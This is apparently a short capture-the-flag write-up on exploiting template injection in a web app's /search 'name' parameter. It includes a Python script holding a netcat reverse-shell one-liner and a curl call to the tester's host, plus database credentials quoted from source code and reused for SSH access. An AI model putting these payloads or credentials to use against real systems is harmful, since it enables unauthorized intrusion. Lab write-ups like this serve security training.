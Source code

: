 The web app is vulnerable to a template injection attack on the /search page in the "name" parameter
- fuzz this vulnerability with a polyglot
![[Pasted image 20220822130619.png]]
- Use ping to confirm there is code execution
![[Pasted image 20220822130739.png]]
- For some reason, sticking the reverse shell into the HTTP request doesn't work
- To get around this, I downloaded a python script and then ran it with a separate command to get my RCE
```bash
$ cat test.py                                                        130 ⨯
import subprocess

a = subprocess.check_output('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f', shell=True)
# the last line is for debugging if the shell were to not work
subprocess.check_output('curl 10.10.14.10:9001/{}'.format(a), shell=True)
```
![[Pasted image 20220822150950.png]]
From MainController.java in websites source
```java
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
```
- Use the password to get a ssh shell as woodenk
